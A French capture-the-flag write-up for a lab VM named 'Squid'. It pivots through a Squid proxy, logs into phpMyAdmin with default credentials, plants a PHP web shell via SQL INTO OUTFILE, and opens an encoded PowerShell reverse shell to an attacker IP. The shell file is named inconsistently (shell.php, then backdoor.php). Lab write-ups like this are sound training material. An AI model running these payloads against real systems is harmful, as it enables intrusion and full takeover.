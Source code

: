 # Squid

    sudo nmap -p- -sV -T5 192.168.205.189
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.205.189 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.205.189
Scans classiques.    
 
    3128/tcp open http-proxy Squid http proxy 4.14  
    |_http-title: ERROR: The requested URL could not be retrieved  
    |_http-server-header: squid/4.14

Seul le port 3128 semble ouvert. Le piège est qu'il ne faut pas se casser les dents à énumérer le port 3128 comme une cible, mais l'utiliser comme un proxy vers les autres services de la VM. 

    sudo vim /etc/proxychains4.conf
Ajouter "http 192.168.205.189 3128" et commenter les autres lignes.

    proxychains nmap --top-ports=300 -sV -T5 -sT --max-retries=1 192.168.205.189 -oN  Squid.txt
    nmap -sV --top-ports=300 -Pn -n -T5 -v --max-retries=1 --proxies http://192.168.205.189:3128 192.168.205.189

Voici deux exemples de scans que j'ai testés sans succès, les ports refusent ou ignorent ma connexion à chaque fois. J'ai voulu forcer dans cette voie en n'utilisant que Nmap mais apparemment il faut utiliser un autre outil spécifique capable de scanner à travers un proxy HTTP : https://github.com/aancw/spose

    $ python3  ~/Downloads/spose/spose.py  --proxy http://192.168.205.189:3128 --target 192.168.205.189
    Using proxy address http://192.168.205.189:3128  
    192.168.205.189 3306 seems OPEN  
    192.168.205.189 8080 seems OPEN

Passer par le navigateur avec une extension de gestion des proxies pour continuer sans trop s'embêter. On peut accéder au site sur http://192.168.205.189:8080/ en spécifiant le proxy 192.168.205.189:3128, type HTTP. Ce dernier point est très important, la connexion au site ne fonctionnera pas si on se trompe de protocole et que l'on passe par un SOCKS4 ou un SOCKS5.

En utilisant le mot de passe par défaut de phpMyAdmin ("root" / "") on peut se connecter au dashboard d'administration. On a maintenant un bien plus grand nombre de possibilités. 
<br /> Sur la page http://192.168.205.189:8080/phpmyadmin/sql.php on peut exécuter des requêtes MySQL, ce qui donne la possibilité d'injecter un web-shell :

    SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "C:/wamp/www/shell.php"

En visitant la page http://192.168.205.189:8080/backdoor.php?cmd=whoami on a bien le résultat de la commande :
> nt authority\system

Visiblement on est déjà au maximum des droits, il suffit donc de transformer ce web-shell en reverse-shell pour terminer la VM. Je vais utiliser l'un des shells du site https://www.revshells.com/ avec encodage : 

    rlwrap nc -nvlp 9001

En ouvrant l'adresse finale j'obtiens bien la connexion au serveur : 
http://192.168.205.189:8080/backdoor.php?cmd=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27192.168.45.184%27%2C9001%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

	PS C:\wamp\www> type C:\local.txt
    PS C:\wamp\www> dir C:\Users\Administrator\Desktop
    PS C:\wamp\www> type C:\Users\Administrator\Desktop\proof.txt

